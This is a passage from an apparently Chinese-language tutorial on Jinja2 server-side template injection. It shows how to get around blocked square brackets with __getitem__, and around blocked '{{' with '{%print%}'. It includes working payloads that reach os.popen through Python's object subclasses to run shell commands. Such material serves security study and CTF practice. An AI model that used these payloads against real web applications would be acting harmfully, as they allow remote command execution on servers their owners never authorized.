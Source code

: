 ## [绕过\[\]](#toc__6)

经常有中括号被 ban 的情况出现，这个时候可以使用`__getitem__` 魔术方法，它的作用简单说就是可以把中括号转换为括号的形式，举个例子

```plain
__bases__[0]=__bases__.__getitem__(0)
```

[![在这里插入图片描述](assets/1698900310-b5e0d8665ca6d22f5c44820161c79f96.png)](https://storage.tttang.com/media/attachment/2022/08/14/299a9c8f-5dee-4566-8e66-88fda0c87c3b.png)

## [绕过{{](#toc__7)

有时候为了防止 SSTI，可能程序员会 ban 掉{{，这个时候我们可以利用 jinja2 的语法，用{%来进行 RCE，举个例子  
我们平常使用的 payload

```plain
{{"".__class__.__bases__[0]. __subclasses__()[138].__init__.__globals__['popen']('dir').read()}}
```

修改后的 payload

```plain
{%print("".__class__.__bases__[0]. __subclasses__()[138].__init__.__globals__['popen']('dir').read())%}
```

[![在这里插入图片描述](assets/1698900310-b8ac7ba1201019c10378ecfed299d3d3.png)](https://storage.tttang.com/media/attachment/2022/08/14/0353d474-c459-40f1-9d62-b93562966072.png)  
也可以借助 for 循环和 if 语句来执行命令
